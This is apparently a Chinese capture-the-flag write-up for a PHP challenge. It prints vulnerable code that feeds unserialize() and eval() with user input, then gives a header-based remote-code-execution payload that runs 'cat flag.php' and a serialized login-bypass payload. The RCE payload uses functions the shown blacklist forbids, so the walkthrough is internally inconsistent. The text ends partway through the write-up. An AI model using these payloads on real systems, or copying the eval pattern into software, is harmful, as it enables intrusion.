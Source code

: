 ```
echo(system(end(getallheaders()))); 
```

在最后在最后一条请求头添加

```
cat flag.php
```

题目：

```
<?php
highlight_file(__FILE__);
$username = str_shuffle(md5("admin"));
$password = str_shuffle(md5("root"));

$login = false;
if (isset($_GET['str'])) {
    $str = $_GET['str'];
    $unserialize_str = unserialize($str);
    if ($unserialize_str['username'] == $username && $unserialize_str['password'] == $password) {
        $login = true;
    }
}

if ($login && isset($_GET['code'])) {
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
        if (!preg_match('/highlight_file|localeconv|pos|curret|chdir|localtime|time|session|getallheaders|system|array|implode/i', $_GET['code'])) {
            eval($_GET['code']);
        } else {
            echo "含有危险函数" . "<br/>";
        }
    } else {
        echo "不符合正则表达式" . "<br/>";
    }
} 
```

分析代码，看到md5，那大概率考的是弱比较，需要我们通过判定使$login为true。

才能进入到第二个if判断里，看到preg_replace（'/[^\W]+\((?R)?\)/'），就知道是无参数rce了。

要先构造点，但是localeconv，pos，current等都被过滤了。

先绕过第一个判断，这里是找到了一篇**天网管理系统**

![微信图片_20210406162802](https://tcakalr.gitee.io/tc/微信图片_20210406162802.png)

利用他的payload进行修改：a:2:{s:4:”user”;b:1;s:4:”pass”;b:1;}

改为a:2:{s:8:"username";b:1;s:8:"password";b:1;}

放在phpstudy测试，可以绕过，接下来就是构造点去读取目录了，

![微信图片_202104061628021](https://tcakalr.gitee.io/tc/微信图片_202104061628021.png)
